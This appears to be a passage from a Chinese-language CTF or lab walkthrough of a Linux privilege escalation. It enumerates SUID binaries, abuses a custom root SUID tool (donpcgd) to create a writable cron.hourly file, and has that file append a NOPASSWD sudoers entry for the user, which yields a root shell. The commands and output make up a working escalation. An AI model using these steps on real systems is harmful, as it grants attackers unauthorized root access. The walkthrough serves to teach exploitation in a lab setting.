 经过一番挖掘，并根据之前的发现，它看起来`eric`最初使用了许多漏洞利用之一来提升到`root`. 这些漏洞似乎都不再起作用，但是`suid`发现了一个有趣的文件。

```
eric@BM:~$ find / -user root -perm -4000 -ls 2>/dev/null
  1454477    368 -r-sr-s---   1 root     eric       372922 Aug 20  2016 /usr/local/share/sgml/donpcgd
  1048829    136 -rwsr-xr-x   1 root     root       136808 May  4  2016 /usr/bin/sudo
  1058216     24 -rwsr-xr-x   1 root     root        23376 Jan 17  2016 /usr/bin/pkexec
  1048745     56 -rwsr-xr-x   1 root     root        54256 Mar 29  2016 /usr/bin/passwd
  1057557     36 -rwsr-xr-x   1 root     root        32944 Mar 29  2016 /usr/bin/newgidmap
  1048609     40 -rwsr-xr-x   1 root     root        40432 Mar 29  2016 /usr/bin/chsh
  1048670     76 -rwsr-xr-x   1 root     root        75304 Mar 29  2016 /usr/bin/gpasswd
  1057558     36 -rwsr-xr-x   1 root     root        32944 Mar 29  2016 /usr/bin/newuidmap
  1048734     40 -rwsr-xr-x   1 root     root        39904 Mar 29  2016 /usr/bin/newgrp
  1048607     52 -rwsr-xr-x   1 root     root        49584 Mar 29  2016 /usr/bin/chfn
  1058246     24 -rwsr-xr-x   1 root     root        23288 Apr 29  2016 /usr/bin/ubuntu-core-launcher
  1048930     12 -rwsr-xr-x   1 root     root        10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
  1057498     40 -rwsr-xr-x   1 root     root        38984 Jun 30  2016 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
  1318420     16 -rwsr-xr-x   1 root     root        14864 Jan 17  2016 /usr/lib/policykit-1/polkit-agent-helper-1
  1066069    420 -rwsr-xr-x   1 root     root       428240 Aug 11  2016 /usr/lib/openssh/ssh-keysign
  1056767     44 -rwsr-xr--   1 root     messagebus    42992 Apr  1  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  1179709     40 -rwsr-xr-x   1 root     root          40152 May 26  2016 /bin/mount
  1179740     40 -rwsr-xr-x   1 root     root          40128 Mar 29  2016 /bin/su
  1179758     28 -rwsr-xr-x   1 root     root          27608 May 26  2016 /bin/umount
  1190647     32 -rwsr-xr-x   1 root     root          30800 Mar 11  2016 /bin/fusermount
  1179724     44 -rwsr-xr-x   1 root     root          44680 May  7  2014 /bin/ping6
  1179723     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /bin/ping
  1190681    140 -rwsr-xr-x   1 root     root         142032 Feb 17  2016 /bin/ntfs-3g
```

如果我们提供两个路径，则会在第二个路径创建一个文件，该路径可由`eric`. 我们可以在_任何_位置创建文件，如下所示。

```js
eric@BM:~$ /usr/local/share/sgml/donpcgd /dev/null /etc/testing
#### mknod(/etc/testing,21b6,103)
eric@BM:~$ ls -lah /etc/testing
crw-rw-rw- 1 root root 1, 3 Sep 15 10:22 /etc/testing
```

我试图通过创建一个`cron.hourly`条目来利用这一点，该条目会将`eric`用户添加为`sudoer`.

```js
eric@BM:~$ touch /tmp/test
eric@BM:~$ /usr/local/share/sgml/donpcgd /tmp/test /etc/cron.hourly/test
#### mknod(/etc/cron.hourly/test,81b4,0)
eric@BM:~$ echo -e '#!/bin/bash\necho "eric ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > /etc/cron.hourly/test
eric@BM:~$ chmod +x /etc/cron.hourly/test
eric@BM:~$ cat /etc/cron.hourly/test
#!/bin/bash
echo "eric ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

现在，我等一个小时左右后，我检查一下是否可以`sudo`。

```js
eric@BM:~$ sudo su
root@BM:/home/eric# id
uid=0(root) gid=0(root) groups=0(root)
root@BM:/home/eric#
```
